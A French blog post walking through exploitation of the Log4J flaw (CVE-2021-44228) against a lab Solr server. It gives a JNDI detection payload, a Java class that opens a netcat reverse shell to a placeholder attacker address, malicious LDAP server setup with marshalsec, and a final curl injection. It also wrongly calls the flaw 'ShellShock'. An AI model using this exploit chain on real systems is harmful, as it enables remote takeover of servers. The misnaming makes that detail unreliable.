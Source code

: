 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel de la cybersécurité pour avoir entendu parler de cette faille.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4j.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine d'exploit.

# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la création de logs. Pour cette attaque je me base sur l'application Solr, puisque cette dernière utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que Log4J est présent dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça il faut d'abord trouver un point d'injection. Le plus simple est donc de jeter un oeil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées, l'url mais également **les paramètres**.

Pour identifier la vulnérabilité du système, il suffit d'injecter un paramètres GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`{jndi:ldap://<IP>:<PORT>}`

Voilà donc l'injection, avec un listener de l'autre côté pour vérifier la bonne execution par le système de logs :

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)

Une connexion s'effectue bien entre notre machine et le serveur, ce dernier est donc vulnérable à l'attaque.

# Exploitation

Nous avons vu dans la partie précédente que l'application était vulnérable, cependant pour le moment, aucune execution de code sur le serveur n'est possible. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de jdni va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux et donc utilisé pour rediriger vers du code malveillant en notre possession.

## Charge utile

Afin de créer un accès au serveur, on cherche simplement à créer un shell, pour ça la classe Java suivante est suffisante : 


```Java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

On la compile sous le nom de `Exploit.class`

## Mise en place d'un serveur LDAP malveillant

Pour cela on utilise le software Marshalsec (https://github.com/mbechler/marshalsec) qui va permettre de créer le serveur et de rediriger le traffic.

![image](https://user-images.githubusercontent.com/16634117/145871850-2f83e1d5-6e94-40ec-803b-c71be8fca4d6.png)

## Attaque

Une fois les éléments en place, il faut crér un serveur capacle de répondre avec notre charge malveillante, un simple `python3 -m http.server` fera l'affaire.

Tous les éléments sont en place. 

Une simple requête avec l'injection va permettre de déclencher toute la chaine d'attaque : 

`curl 'http://10.10.31.65:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.65.176:1389/Exploit\}'`



